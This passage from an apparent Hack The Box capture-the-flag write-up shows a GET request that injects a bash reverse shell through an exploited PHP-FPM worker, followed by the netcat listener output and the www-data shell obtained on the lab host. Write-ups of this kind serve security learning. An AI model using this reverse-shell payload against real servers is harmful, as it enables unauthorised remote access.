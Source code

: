 Now that the exploit has worked, we're able to craft the GET request through burp like this:
```
/index.php?a=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.254.2/8000+0>%261'%26
```

![index-rev-shell.png](/assets/images/posts/htb-static/index-rev-shell.png)

I setup a nc listener on the web machine (our middle-man in between us and the pki machine we just exploited) and after a few tries, it works. The vulnerability apparently only affects some php workers, so it needs a few attempts in order to hit the exploited php worker process.

Once our request hits the exploited worker, the response hangs and we pop a shell:
```
www-data@web:/tmp$ ./nc -vv -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 43906
bash: cannot set terminal process group (13): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pki:~/html$ 

www-data@pki:~/html$ pwd
pwd
/var/www/html
www-data@pki:~/html$ whoami
whoami
www-data
```


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu
[3]: https://totp.danhersam.com/
[4]: https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
[5]: https://github.com/neex/phuip-fpizdam